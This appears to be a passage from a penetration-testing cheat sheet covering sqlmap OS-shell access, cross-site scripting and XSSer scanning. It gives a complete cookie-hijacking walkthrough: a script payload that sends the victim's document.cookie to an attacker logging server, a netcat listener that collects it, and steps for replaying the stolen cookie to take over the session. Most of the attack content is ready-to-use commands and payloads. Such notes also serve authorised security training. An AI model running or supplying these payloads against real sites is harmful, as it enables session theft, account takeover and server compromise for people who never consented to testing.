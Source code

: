#### Get OS-Shell

```bash
sqlmap -u "http://10.10.10.10/file.php?id=1" --os-shell
```

### **XSS**

Check an example:

```javascript
<script>alert("hack :)")</script>
```

**Hijack cookie through xss**

there are four components as follows:

* attacker client pc
* attacker logging server
* vulnerable server
* victim client pc

1. attacker: first finds a vulnerable server and its breach point.
2. attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):

```javascript
<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>
```

3. attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:

```
nc -vv -k -l -p 80
```

4. attacker: when victim client pc browses the vulnerable server, check the output of the command above.
5. attacker: after obtaining the victim’s cookie, utilize a firefox’s add-on called Cookie Quick Manager to change to the victim’s cookie in an effort to hijack the victim’s privilege.

**XSSer**

```bash
xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

xsser --url "http://<TARGET_IP>/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"

## Authenticated XSSer
xsser --url "http://<TARGET_IP>/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```
